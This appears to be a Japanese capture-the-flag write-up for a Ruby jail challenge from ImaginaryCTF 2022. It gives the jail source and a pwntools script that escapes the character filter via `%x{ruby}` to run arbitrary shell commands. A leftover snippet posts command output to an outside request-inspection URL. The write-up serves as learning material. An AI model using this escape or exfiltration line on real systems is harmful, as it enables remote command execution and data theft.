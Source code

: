 ```yaml
---
layout: chall
ctf_name: imaginaryctf_2022
problem_name: pokemon_emerald
genre: misc
solved_date: 2022-07-19
during_ctf: true
tag: [ruby,jail]
fav: false
difficulty: easy
---
```


### 概要

`{}`

<details><summary>コード</summary>

```rb
#!/usr/bin/env -S stdbuf -o0 -i0 ruby
code = gets.strip
# abcfjnrtuxy%{}_01234
code.each_char do |c|
  unless "jctf{any%_2uby_3xtr4ct10n}".include? c
    puts "NO!"
    exit
  end
end
puts eval(code)
```

</details>


### 解法

`%` が含まれていることから、ruby の [% 文字列](https://docs.ruby-lang.org/ja/latest/doc/spec=2fliteral.html#percent)を用いると推測できる。`%{}` でコマンドの実行結果を文字列として表示できる。`ruby` コマンドは引数を与えなければ標準入力から受け取り、コードとして評価する。なので、`%{ruby}` を送信した後に任意のスクリプトを送り込み、最後にEOF の代わりとなる `\x04` を送信すればよい。`EOF` の代わりは `stream.shutdown()` を使っても実現できる。

<details><summary>スクリプト</summary>

```py
from pwn import *

LOCAL = False

cmd = ""
old = f"""
require 'uri'
require 'net/http'
Net::HTTP.post_form(URI("https://requestinspector.com/inspect/01g86qn2tzmbdffdm9fk9339r0"),'body'=> %x{{{cmd}}})
"""

while True:
  if LOCAL: stream = process(["ruby", "jail.rb"])
  # if LOCAL: stream = remote('localhost', 8002)
  else: stream = remote('pokemon-emerald.chal.imaginaryctf.org', 1337)
  stream.sendline(b'%x{ruby}')
  sleep(0.1)
  cmd = input("$ ")
  stream.send(f"p %x{{{cmd}}}\x04\n".encode())
  print(stream.recvall(timeout=1))
  stream.close()
```

</details>

